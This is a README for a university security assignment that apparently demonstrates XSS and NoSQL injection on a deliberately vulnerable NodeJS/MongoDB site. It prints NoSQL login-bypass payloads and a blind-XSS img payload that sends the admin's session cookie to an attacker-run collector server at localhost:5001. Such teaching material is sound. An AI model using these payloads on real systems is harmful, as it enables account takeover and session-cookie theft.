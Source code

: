 # ISEC3004-Assignment<br>
<br>
## Introduction<br>
This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
<br>
index.html - Main page for the website<br>
<br>
Backend - Backend Server<br>
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
<br>
To run the backend server, navigate to the directory and run the following commands:<br>
`npm install`<br>
`nodemon index.js`<br>
<br>
EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
<br>
To run the backend server, navigate to the directory and run the following commands:<br>
`npm install`<br>
`nodemon index.js`<br>
<br>
<br>
NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>
`"password": {"$ne": null}` <br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>
`"email": {"$ne": null}, "password": {"$ne": null}`<br>
<br>

XSS - XSS Attack<br>
When a user account is created with a XSS payload such as: <br>
`<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>` as the name.<br>
<br>
The payload will be executed when the Administrator of the system loads the admin page. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>